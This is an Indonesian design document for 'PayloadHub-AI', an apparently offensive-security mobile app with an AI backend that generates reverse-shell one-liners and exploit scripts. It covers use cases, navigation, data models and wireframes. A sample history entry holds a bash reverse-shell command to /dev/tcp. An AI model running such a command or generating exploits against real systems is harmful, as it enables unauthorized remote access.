










# TAHAP 2 — Perancangan Sistem dan Antarmuka

**Proyek:** PayloadHub-AI
**Fokus tahap:** alur aplikasi, kasus penggunaan, navigasi, model data, *wireframe*, dan purwarupa antarmuka.

---

## 1. Prinsip Perancangan

Rancangan mengikuti karakteristik pengguna pada Tahap 1: praktisi keamanan yang bekerja cepat, sering menggunakan satu tangan di ponsel, dan membutuhkan hasil yang dapat dibaca serta disalin.

| Prinsip | Penerapan dalam rancangan |
|---|---|
| **Kemudahan penggunaan** | Maksimal 2 ketukan menuju fitur utama; aksi utama selalu berupa tombol besar di bawah formulir. |
| **Konsistensi** | Satu tema gelap, satu palet warna, satu pola kartu (`PanelCard`), satu pola tombol (`FilledButton` aksen). |
| **Keterbacaan** | Hasil kode memakai *font monospace*, `SelectableText`, *line height* 1,45; kontras teks utama ≥ 4,5:1. |
| **Umpan balik** | Setiap aksi memberi respons: *loading spinner*, SnackBar sukses/gagal, status kosong yang menjelaskan langkah berikutnya. |
| **Pencegahan kesalahan** | Validasi IPv4/port sebelum aksi; konfirmasi sebelum menghapus seluruh riwayat; peringatan otorisasi. |
| **Efisiensi di ponsel** | Navigasi bawah di area jempol; target sentuh ≥ 44 dp; kartu tersusun vertikal tanpa *horizontal scroll*. |
| **Keamanan** | Data sensitif tidak pernah ditampilkan penuh; API key disamarkan; riwayat disimpan terenkripsi. |

**Palet warna (tema gelap):**

| Token | Hex | Penggunaan |
|---|---|---|
| `bg` | `#0D1117` | Latar aplikasi |
| `bgElevated` | `#161B22` | Top bar, sidebar, input |
| `card` | `#1F242D` | Kartu/panel |
| `border` | `#2E3644` | Garis pemisah |
| `accent` | `#50FA7B` | Aksi utama, status aman |
| `warning` | `#E3B341` | Peringatan |
| `danger` | `#F85149` | Risiko tinggi, hapus |
| `info` | `#58A6FF` | Informasi/tautan |
| `textPrimary` | `#E6EDF3` | Teks utama |
| `textSecondary` | `#8B949E` | Teks sekunder |

Tipografi: Roboto (bawaan Flutter) untuk UI, monospace untuk kode; ukuran judul 17 sp, isi 13–14 sp, metadata 10,5–12 sp.

---

## 2. Diagram Alur Aplikasi

### 2.1 Alur pengguna utama



### 2.2 Alur data saat memanggil agent AI



---

## 3. Kasus Penggunaan (Use Case)

### 3.1 Diagram use case



### 3.2 Skenario kasus penggunaan

| Kode | Nama | Aktor | Prakondisi | Alur utama | Alur alternatif | Pascar kondisi |
|---|---|---|---|---|---|---|
| UC-01 | Melihat dashboard | Pengguna | Aplikasi terbuka | Pilih tab Home → kartu Studio, Nmap, Aktivitas, Library, Threat, Monitoring tampil | Layar lebar: tiga kolom; ponsel: satu kolom gulir | Pengguna memahami status dan dapat menuju fitur |
| UC-02 | Membuat one-liner | Pengguna | Berada di Script Generator | Pilih kategori → pilih tipe → isi LHOST/LPORT → tekan Generate → payload tampil & tersimpan | IP/port tidak valid → pesan error, payload tidak dibuat | Payload dapat disalin; entri riwayat bertambah |
| UC-03 | Membuat exploit Python | Pengguna | Backend aktif | Isi target/port/path/tipe → Generate → backend agent memproses → kode tampil | Backend mati/timeout → pesan error; input kosong → validasi | Kode exploit tampil dan tercatat di riwayat |
| UC-04 | Mencari exploit | Pengguna | Halaman Exploit Library | Ketik kata kunci → daftar terfilter → pilih item | Tidak ada hasil → status kosong | Detail CVE/PoC tampil |
| UC-05 | Kirim ke Studio | Pengguna | Exploit dipilih | Tekan Send to Studio | - | Studio terisi, navigasi ke Dashboard |
| UC-06 | Mengatur konfigurasi | Pengguna | Halaman Settings | Isi API key/LHOST/LPORT → Save | Validasi gagal → simpan dibatalkan | Nilai tersimpan terenkripsi |
| UC-07 | Mengelola riwayat | Pengguna | Ada/belum ada entri | Buka Riwayat → pilih entri → salin/hapus/ekspor | Riwayat kosong → status kosong informatif | Perubahan persist setelah aplikasi dibuka ulang |
| UC-08 | Threat intelligence | Pengguna | Halaman Dashboard/Threat | Masukkan indikator → periksa | Key belum diisi → pesan konfigurasi | Hasil reputasi tampil |
| UC-09 | Validasi masukan | Sistem | Form dikirim | Periksa format IPv4/port/panjang teks | Tidak valid → blokir aksi | Hanya data valid yang diproses |
| UC-10 | Tool deterministik | Backend | Request valid | LLM memilih tool → tool menyusun keluaran | Tool gagal → error 500 terstruktur | Keluaran konsisten & dapat diaudit |

---

## 4. Struktur Navigasi

### 4.1 Peta navigasi



### 4.2 Tabel halaman

| Halaman | Jenis | Akses | Komponen utama | Aksi |
|---|---|---|---|---|
| Dashboard | Tab utama | Bottom nav/sidebar | `StudioConfigPanel`, `NmapScansPanel`, `ActivityHistoryPanel`, `PayloadLibraryPanel`, `ThreatIntelPanel`, `MonitoringPanel` | Isi konfigurasi, buka riwayat, ekspor |
| Exploit Library | Tab utama | Bottom nav/sidebar | Pencarian, daftar exploit, detail CVE/PoC | Cari, pilih, kirim ke Studio |
| Script Generator | Tab utama | Bottom nav/sidebar | Tab One-Liner & Python Builder | Validasi, generate, salin |
| Monitoring | Tab utama | Bottom nav/sidebar | Grafik CPU/RAM/jaringan, log agent | Muat ulang, bersihkan log |
| Settings | Tab utama | Bottom nav/sidebar | Kartu API, target default, LLM engine, toggle UI | Simpan, validasi |
| Riwayat Aktivitas | *Pushed route* | Top bar, sidebar, panel | Daftar entri, *detail bottom sheet* | Salin, hapus per entri, hapus semua, ekspor |
| Detail Exploit | *Pushed route* | Tap item (ponsel) | Detail CVE, CVSS, PoC | Kirim ke Studio |

**Pola navigasi yang diterapkan:**

1. **Persisten**: `IndexedStack` mempertahankan state halaman setelah dikunjungi.
2. **Adaptif**: `NavigationBar` di ponsel, `AppSidebar` di layar ≥ 700 px.
3. **Bertumpuk**: rute detail (riwayat, exploit) memakai `Navigator.push` + `MaterialPageRoute`.
4. **Sementara**: Info Bot dan detail riwayat memakai *overlay/bottom sheet*.
5. **Kembali**: tombol *back* sistem dan `AppBar` pada rute bertumpuk.

---

## 5. Model Data

### 5.1 Model lokal (Flutter)

**ActivityEntry** — riwayat aktivitas, disimpan sebagai array JSON di `flutter_secure_storage`.

| Field | Tipe | Wajib | Keterangan |
|---|---|---|---|
| `id` | String | Ya | `microsecondsSinceEpoch-kinds`, unik dan terurut |
| `kind` | Enum | Ya | `payload`, `exploit`, `scan`, `threat`, `chat` |
| `title` | String | Ya | Ringkasan, mis. `Reverse Shell · bash` |
| `detail` | String | Ya | Payload/kode lengkap |
| `createdAt` | ISO-8601 | Ya | Waktu lokal pembuatan |

```json
{
  "id": "1792483912000000-payload",
  "kind": "payload",
  "title": "Reverse Shell · bash",
  "detail": "bash -i >& /dev/tcp/10.10.14.8/9001 0>&1",
  "createdAt": "2026-10-20T13:45:00.000"
}
```

**Konfigurasi pengguna** (key-value, terenkripsi):

| Key | Tipe nilai | Fungsi |
|---|---|---|
| `api_openai`, `api_deepseek`, `api_gemini`, `api_shodan`, `api_virustotal` | String | Kunci provider opsional |
| `default_lhost` / `default_lport` | String / int | Nilai awal generator |
| `backend_base_url` | String | Alamat backend |
| `llm_engine` | String | `deepseek` atau `ollama` |
| `ui_glow`, `ui_terminal_font`, `ui_sound` | bool | Preferensi tampilan |
| `activity_log` | JSON array | Riwayat aktivitas (maks. 40) |

### 5.2 Model backend (Pydantic)

```
AgentContext
├── lhost: IPv4?          (regex ketat)
├── lport: 1..65535?
├── target: string?       (sanitasi, maks. 255)
├── target_os: linux|windows|unknown
└── scan_data: string?    (sanitasi, maks. 20.000)

AgentRequest
├── prompt: 1..4000 char  (sanitasi karakter kontrol)
├── session_id: UUID?
└── context: AgentContext?

AgentResponse
├── status: "success"
├── session_id: UUID
├── response: string
├── code_blocks: CodeBlock[]
├── tools_used: string[]
└── elapsed_ms: int

ErrorResponse
├── status: "error"
└── detail: [{loc, msg, type}]
```

### 5.3 Relasi data



Catatan: relasi di atas adalah model konseptual. Pada MVP, `USER` adalah pemilik perangkat (single-user) dan data disimpan lokal/terenkripsi; backend tidak menyimpan riwayat.

---

## 6. Wireframe

Wireframe lengkap tersedia sebagai SVG di `docs/assets/` dan dapat dibuka langsung di browser.

### 6.1 Dashboard (ponsel)



Elemen: top bar (judul + riwayat/ekspor/tentang), kartu Studio, Nmap, Aktivitas, Library, Threat, Monitoring yang tersusun vertikal, FAB Info Bot, dan bottom navigation 5 item.

### 6.2 Script Generator



Elemen: tab One-Liner/Python, chip kategori, dropdown tipe, input LHOST/LPORT, tombol Generate, blok kode dengan tombol salin, serta SnackBar konfirmasi.

### 6.3 Exploit Library dan detail (ponsel)



Elemen: kolom pencarian, kartu exploit (CVE, kategori, layanan, ringkasan), dan halaman detail penuh berisi CVSS, deskripsi, PoC, serta tombol *Send to Studio*.

### 6.4 Riwayat Aktivitas



Elemen: app bar dengan muat ulang/hapus, daftar kartu (ikon jenis, judul, cuplikan, waktu), aksi geser untuk menghapus, dan *bottom sheet* detail dengan tombol salin.

### 6.5 Settings



Elemen: kartu API Configuration, Target Defaults (responsif dua kolom/satu kolom), LLM Engine, Theme & UI Tweaks, dan tombol Save Settings.

---

## 7. Purwarupa Antarmuka

Purwarupa interaktif tersedia di [`docs/prototipe/index.html`](prototipe/index.html). Buka file tersebut di browser, lalu gunakan navigasi bawah untuk berpindah layar. Purwarupa menampilkan:

- Dashboard versi ponsel dengan kartu bertumpuk.
- Generator dengan validasi dan contoh keluaran.
- Riwayat dengan pencarian visual dan detail.
- Alur *tap* exploit → detail → kembali.

Purwarupa ini bersifat **high-fidelity untuk tata letak dan alur**; perilaku fungsional sesungguhnya diuji pada aplikasi Flutter (Tahap 3–4). Aplikasi Flutter juga dapat dijalankan sebagai purwarupa hidup melalui `flutter run -d chrome`.

---

## 8. Kesesuaian Desain dengan Pengguna

| Karakteristik pengguna | Keputusan desain | Alasan |
|---|---|---|
| Bekerja cepat, satu tangan | Aksi utama di bawah, bottom nav, FAB | Jangkauan jempol pada ponsel |
| Terbiasa terminal | Blok kode monospace, tombol salin, output apa adanya | Mengurangi kesalahan transmisi |
| Lingkungan lab berkoneksi terbatas | Generator one-liner offline | Tetap produktif tanpa backend |
| Concern keamanan | Secure storage, API key disamarkan, peringatan etika | Mencegah kebocoran kredensial |
| Multi-perangkat | Layout adaptif 1/3 kolom | Konsisten di ponsel, tablet, desktop |

---

## 9. Status Verifikasi

| Klaim | Status | Bukti |
|---|---|---|
| Navigasi adaptif diterapkan | **[C]** | `dashboard_screen.dart`, `app_sidebar.dart` |
| Rute detail exploit di ponsel | **[C]** | `exploit_library_page.dart` (`_ExploitDetailScreen`) |
| Riwayat memakai `Navigator.push` | **[C]** | `history_panel.dart` (`openHistory`) |
| Model data sesuai kode | **[C]** | `activity_entry.dart`, `backend/app/models.py` |
| Purwarupa dan wireframe tersedia | **[C]** | `docs/prototipe/index.html`, `docs/assets/*.svg` |
| Pengukuran kontras formal | **[S]** | Nilai warna diambil dari tema; audit kontras otomatis belum dijalankan |

**VERDICT: approve** — rancangan alur, navigasi, data, dan antarmuka konsisten dengan kebutuhan Tahap 1 dan siap diimplementasikan.
